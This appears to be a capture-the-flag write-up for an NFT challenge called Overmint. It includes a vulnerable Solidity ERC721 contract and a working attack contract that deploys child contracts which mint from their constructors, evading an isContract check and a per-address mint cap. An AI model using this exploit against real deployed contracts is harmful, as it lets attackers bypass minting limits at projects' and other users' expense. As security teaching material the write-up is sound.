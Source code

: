 # Overmint

This hack requires a few steps. Let's note the main vulnerability here:

The victim contract `AnatemToken` implements a OZ lib, `Address.sol`. It looks like it prevents contract addresses from calling certain code, However, this is not completely true. Read [here](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol) @ Line 31-33 for the disclaimer.



## The setup

- Deploy the AnatemToken (create an instance to hack) See code below
- Update `VICTIM_ADDR` constant in attck contract (this could be re-written and passed in as a constructor arg)
- Deploy attacking contract

### Victim (Contract used to create instance to be hacked):
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.1;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract AnatemToken is ERC721 {
    using Address for address;
    mapping(address => uint256) public amountMinted;
    uint256 totalSupply;

    constructor() ERC721("AnatemToken", "AT") {}

    function mint() external {
        require(!msg.sender.isContract(), "no contracts");
        require(amountMinted[msg.sender] <= 3, "max 3 NFTs");
        _safeMint(msg.sender, totalSupply);
        totalSupply++;
        amountMinted[msg.sender]++;
    }

    function success(address _attacker) external view returns (bool) {
        return balanceOf(_attacker) == 5;
    }
}
```
### Attacking Contract:
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.1;

import "./AnatemToken.sol";

contract AttackFactory {

    address constant VICTIM_ADDR = 0x1752d560808356a39049018EC60147ADBb9a91dc;

    function createAttackChildrenContracts() external {
        Child child1 = new Child(VICTIM_ADDR, address(this), 1);
        Child child2 = new Child(VICTIM_ADDR, address(this), 2);
        Child child3 = new Child(VICTIM_ADDR, address(this), 3);
        Child child4 = new Child(VICTIM_ADDR, address(this), 4);
        Child child5 = new Child(VICTIM_ADDR, address(this), 5);
    }
}

contract Child {
    constructor(address _victim, address _parent, uint256 _tokenId) {
    
        AnatemToken anatemToken = AnatemToken(_victim);

        anatemToken.mint();
        anatemToken.transferFrom(address(this), _parent, _tokenId);
    }
}
```

## The attack

By calling the `createAttackChildrenContracts` func in the attacking contract we set in motion a series of events.
- Create five instances of another contract using the Factory(parent/child) pattern
- The code in the `Child` contract's constructor will be run on instantiation. 

This is VERY important for two reasons.

  - The main vulnerability in the `AnatemToken` contract is based upon code being run from a constructor (see above)
  - This code does not need to be directly called by a person or other contract.

- Each `Child` contract will mint a token and then transfer it to the parent(factory) contract `AttackFactory` automatically
- At any point after this, the parent(factory) contract will be on posession of five tokens and can fulfill the `success` check